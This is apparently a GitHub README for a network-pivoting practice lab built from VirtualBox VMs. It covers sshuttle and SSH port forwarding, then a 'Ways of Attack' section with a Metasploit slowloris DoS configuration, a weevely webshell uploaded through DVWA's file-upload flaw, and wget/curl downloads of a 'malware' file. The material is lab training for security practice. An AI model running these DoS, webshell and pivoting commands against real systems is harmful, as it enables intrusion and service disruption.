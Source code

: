 # NM-Lab-Network-pivoting

This is a little playground for practicing network pivoting.

[Demo](<https://youtu.be/gpVocB_ycLo>)

## Prerequisite

### Network architecture and setups

The following is our network settings for doing this Lab.

#### Local (Attacker)
* OS : MacOS or Kali Linux  
* IP : 192.168.2.105 (For example) (Connect with Internet)

#### VirtualBox VM1 (SSH Server)  
* OS : Ubuntu server 20.04  
* (Adapter1 橋接網路卡 Bridge enp0s3) IP : 192.168.2.113 (For example)  
* (Adapter2 內網 Internal enp0s8) IP : 192.168.1.1 (For example)  

#### VirtualBox VM2 (Target Machine)
* OS : Ubuntu server 20.04.2 or Kali Linux  
* (Adapter2 內網 enp0s8) IP : 192.168.1.100 (For example)

#### VirtualBox VM3 (Optional)
* OS : Metasploitable2 (For running DVWA)  
(You can also install DVWA on the target machine, but it is a longer process for installing DVWA alone.)  
(I personally take this as my guideline to [install DVWA](<https://medium.datadriveninvestor.com/setup-install-dvwa-into-your-linux-distribution-d76dc3b80357>))
* (內網 eth0) IP : 192.168.1.101 (For example)  

#### Step 0  
* 下載然後導入 ubuntu server 到 VirtualBox  
https://ubuntu.com/download/server  

#### Step 1 
* 完成 VirtualBox 的網路介面卡設定 確認連接內網的網路卡擁有相同的名稱  

#### Step 2
* 登陸兩(三)台要連接內網的VM之後，使用  
```
$ ifconfig -a
``` 
* 確認內網網路卡的名稱 (ex: enp0s8)，然後使用指令  
```
$ sudo ifconfig enp0s8 192.168.1.1 netmask 255.255.255.0 up
```  
* 開啟網路卡 192.168.1.1
  可以自己設定 (不同的機器要不同 ex : 192.168.1.1 & 192.168.1.100)  
  不過注意每一次開機都要設定  

* 這樣即完成網路設定  
  可以用 ping 或 ifconfig 指令做確認  

### Enviroment & Installation & Requirement

#### Local (Attacker)
[Ssuttle](<https://github.com/sshuttle/sshuttle>) (For pivoting)  
  
[Nmap](<https://nmap.org/book/inst-macosx.html>) (For scanning)(option)  

[Metasploit](<https://www.metasploit.com>) (For using slowloris DOS attack exploit module)      

#### VirtualBox VM1 (SSH Server)  

Required
* SSH service  
* HTTP service (Apache web service)
* A root account (for sshuttle)
* A normal user account (for port forwarding)

#### VirtualBox VM2 (Target machine)

Required
* SSH service  
* HTTP service (Apache web service)  

## Ways of Pivoting

To confirm the results of pivoting, a http server has been hosted on target machine at port 8000 using 
```
python -m SimpleHTTPServer
```

We can use 
```
http://192.168.1.100:8000
```
to connect it from internal network  

### sshuttle  

On terminal  
```
$ sshuttle -r user@192.168.2.113 192.168.1.0/24
```  
Root privilege is required for both local and the ssh server.

### Dynamic port forwarding
On pivot (SSH server):  
```
$ ssh user@192.168.2.113 -D 127.0.0.1:21000 -N
```  
You can use any available port on localhost  

### Reverse remote port forwarding
#### Attacker
Step 1 :   
* Create a new dedicated user  
```
$ sudo useradd sshpivot --no-create-home --shell /bin/false  
$ sudo passwd sshpivot  
```
Step 2 :  
* Add `/bin/false` to `/etc/shells`  

Step 3 :  
```
sudo systemctl restart ssh
```  

Step 4 :  
* Request `http://127.0.0.1:14000` to reach `http://192.168.1.100:8000` after pivot connected  

#### Pivot (SSH server)
```
$ ssh sshpivot@192.168.2.105 -R 127.0.0.1:14000:192.168.1.100:8000 -N
```  

## Ways of Attack

### DOS

* Open terminal and Run metasploitable  
* Somewhere in the `/opt/metasploit-framework/bin/` (with MacOS High Sierra)

```
$ ./msfconsole
```  
* Some configurations if first time use
```
msf6 > search slowloris  
msf6 > use auxiliary/dos/http/slowloris  
msf6 auxiliary(dos/http/slowloris) > options  
msf6 auxiliary(dos/http/slowloris) > set sockets 200
```
* the number of `sockets` doesn't really matter
```
msf6 auxiliary(dos/http/slowloris) > set rhost 192.168.1.100  
msf6 auxiliary(dos/http/slowloris) > run  
```

* Now you should see it working !!!  

* 可以在 target machine 上下指令確認有沒有被DOS  
```
$ systemctl status
```  

### Reverse shell
Use DVWA's file upload vulnerability to open a reverse shell (webshell). [Reference](https://medium.com/blacksecurity/557d6392eefe)  

Step 1 :  
```
weevely generate %password% %~/shell.php%
```  

Step 2 :  
* Upload `shell.php`  

Step 3 :  
```
proxychains weevely http://192.168.1.101/dvwa/hackable/uploads/shell.php %password%
```  

* Note that we must use `proxychains` to connect with proxy. Add `socks4 127.0.0.1 21000` to `/etc/proxychains4.conf`.  

### Downloading other malwares

#### From internal network
* There's a file called malware on VM2 (target machine), download it from other machine in LAN. We can use  
```
$ wget http://192.168.1.100:8000/malware
```  
or  
```
$ curl -O http://192.168.1.100:8000/malware
```  

#### From external network
* If target machine can access external network, we can use similar command as above. If target only has access to internal network, "reverse pivoting" to connect to attacker. However, reverse pivoting might not success if we use the webshell we described previously.  
